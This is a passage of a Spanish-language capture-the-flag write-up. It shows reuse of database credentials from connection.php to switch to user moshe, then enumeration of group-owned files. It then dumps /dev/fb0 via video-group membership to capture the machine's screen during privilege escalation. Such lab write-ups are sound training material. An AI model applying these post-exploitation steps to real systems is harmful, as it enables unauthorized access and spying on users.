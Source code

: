Aqui vemos que no tenemos permisos interesantes pero vemos en el ficher `connection.php` unas credenciales para el usuario `moshe` para la base de datos.

```bash
su moshe
Password:

whoami
#Output
moshe

cat /home/moshe/user.txt
```

Ahora que tenemos la flag, pasamos a la parte **PrivEsc**
## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd /root
uname -a
lsb_release -a
sudo -l
id
```

Aqui llama el atencion el grupo video. Pero aqui primero la idea es ver que grupo tiene este mismo grupo por script.

```bash
groups
for group in $(groups); do echo "El grupo $group"; done
for group in $(groups); do echo -e "\n[+] Listando archivos del sistema con grupo $group asignado:\n"; find / \-group $group 2>/dev/null; done
```

Aqui vemos que el fichero `/dev/fb0` esta en el grupo **video**. Este servicio permite hacer una captura de pantalla de la maquina.

1. Recoger las proporciones de la pantalla

    ```bash
    cd /
    find \-name virtual_size 2>/dev/null
    cat ./sys/devices/pci0000:00/0000:00:0f.0/graphics/fb0/virtual_size
    #Output
    1176.885
    ```

1. Captura de la pantalla

    ```bash
    cd /tmp
    cat /dev/fb0 > Captura
    du -hc Captura
    file Captura
    ```
